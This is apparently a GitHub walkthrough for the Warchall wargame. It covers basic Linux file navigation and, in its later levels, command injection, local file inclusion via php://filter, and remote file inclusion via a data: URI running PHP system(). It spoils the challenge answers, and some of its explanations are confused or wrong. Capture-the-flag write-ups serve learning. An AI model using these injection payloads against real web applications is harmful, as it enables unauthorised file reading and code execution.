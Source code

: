 # Warchall

## Warchall - The Beginning

Congratulations! You are now on your way to becoming a Linux superhacker.

Create an SSH account using the form below. Then enter the six solutions for levels 0-5, separated by commas.

Example: "bitwarrior, Solution1, Solution2, Solution3, Solution4, Solution5"

Connect to the our count ssh,using this commande
ssh -p 19198 pseudo@warchall.net
```bash
  ssh -p 19198 freddy@warchall.net
```

### Level 0
1- Use the ls command to display the contents of the current folder:
ls 
```bash
  ls
```

2- Show the contents of the WELCOME.md file using cat WELCOME.md:
```bash
  cat WELCOME.md
```

3- Navigate to the directory containing the challenge mentioned in the WELCOME.md file:
```
  /home/level/ or /home/user/freddy/level
```

4- Open the 00_WELCOME directory using the cd command and read the README.md file to find the solution:
```bash
  cd 00_WELCOME
  cat README.md
```
### Level 1
1- Open the 01_choice_tree directory using cd:
```bash
  cd O1_choice_tree
```
2- Search for the file containing the solution using the du command:
```bash
  du
```
3- Open the directory using cd and read the file containing the solution using cat:
```bash
  cd ./blue/hats/grey/solution
  cat SOLUTION.txt
```

### Level 2
1- Open the 02 directory using cd:
```bash
  cd O2
```
2- Search for all files in this directory using du -b -a:
```bash
  du -b -a
```
3- Open the solution directory using cd and read the solution file using cat:
```bash
  cd ./porb
  cat ./.solution
```

### Level 3
1- Open the 03 directory using cd:
```bash
  cd O3
```
2- Show all files in this directory using du -b -a:
```bash
  du -b -a
```
3- Read the file ./.bash_history using the cat command:
```bash
  cat ./.bash_history
```

### Level 4
1- Open the 04_kwisatz directory using cd:
```bash
  cd 04_kwisatz
```
2- Show the contents of this directory using ls and read the README.nfo file using cat:
```bash
  cat README.nfo
```
3- Go to the home directory using cd:
```bash
  cd 
```
4- Show all contents of this directory using du:
```bash
  du -b -a
```
5- Read the file containing the solution using cat:
```bash
  cat ./level/04_kwisatz/README2.md
```
### Level 5
1- Open the 05_privacy directory using cd:
```bash
  cd 05_privacy
```
2- Show the contents of this directory using ls:
```bash
  ls
```
3- Read the README.md file using cat:
```bash
  cat README.md 
```
## Choose your PATH 1
This is the level10 mini challenge found in /home/level/10/ on the warchall box.
You can view the source here.
### level 10
1- Use the cd command to navigate into the challenge repository.
```bash
  cd path/to/challenge/repository
```
2- Execute the following command to redirect the solution to the personnal directory:
```bash
   ./charp "run & cat solution.txt > ~/s10.txt"
```
- ./charp: Runs the program or script named "charp."
- "so": Provides a string as an argument to "charp."
- &: Indicates that "so" will run in the background.
- cat solution.txt > ~/s.txt: Displays the content of "solution.txt" and redirects it to a new file "s.txt" in the user's home directory.

3- Open the "s.txt" file in the home directory.
```bash
  cat ~/s.txt
```

## Py-tong
A fellow hacker is challenging you to exploit a simple python script.
To exploit it live, you have to create your Warchall account and try your luck there.
To see what it is about you can also view the source here.

Note: It is not required to trigger a race condition, but it should work as well.
Note: You have to use the binary "pytong" not the pytong.py. It is a wrapper which is needed for SETREGID and finally gives the solution.
### Level 12
To solve this challenge, the following command is used: ./pytong <(echo text)

./pytong: This is the execution of the pytong binary, which is the Python script to exploit
<: This is the redirection operator; it takes the output of the following command and uses it as input for ./pytong.
(echo text): This generates the string "text" and passes it as input to ./pytong
```bash
./pytong <(echo text)
```
## Live LFI
One reason why I wanted the warchall box is to offer more realistic webhacking challenges.
You may now try the Live LFI challenge that is hosted on it.

### Level14
Your objective is to retrieve the content of the `solution.php` file using LFI. Follow the steps below to complete the challenge.

1- Visit the following link in the web browser:
```
https://lfi.warchall.net/index.php?lang=solution.php
```
2- Try using the LFI vulnerability by appending the following payload to the URL:
```
https://lfi.warchall.net/?lang=php://filter/read=convert.base64-encode/resource=solution.php
```
This payload utilizes the `php://filter` stream to encode the content of `solution.php` in base64.

3- Copy the encrypted base64-encoded text from the webpage and decode it using the following bash command in your terminal:
```bash
  echo "text_encrypted" | base64 -d
```

## Live RFI
One reason why I wanted the warchall box is to offer more realistic webhacking challenges.
You may now try the Live RFI challenge hosted on it.
### Level 15
Your objective is to retrieve the content of the `solution.php` file using RFI. Follow the steps below to complete the challenge.
1- Visit the following link in the web browser:
```
https://rfi.warchall.net/index.php?lang=solution.php
```
2- Try using the LFI vulnerability by appending the following payload to the URL:
```
https://rfi.warchall.net/index.php?lang=data:text/plain,%3C?php%20system(%22cat%20solution.php%22)?%3E%E3%80%82
```
The lang parameter of the URL is set to data:text/plain, the string <?php system("cat solution.php")?>. This parameter tells the PHP server to return the content of the PHP file solution.php as plain text.
The string <?php system("cat solution.php")?> is a PHP instruction that calls the function system(). The function system() executes a program or script as a child process. In this case, the program or script executed is the program cat. The program cat reads the contents of a file and displays them on the standard output.
3- After visiting the link above, please inspect the site :
```
  right click and choose the inspect option
```

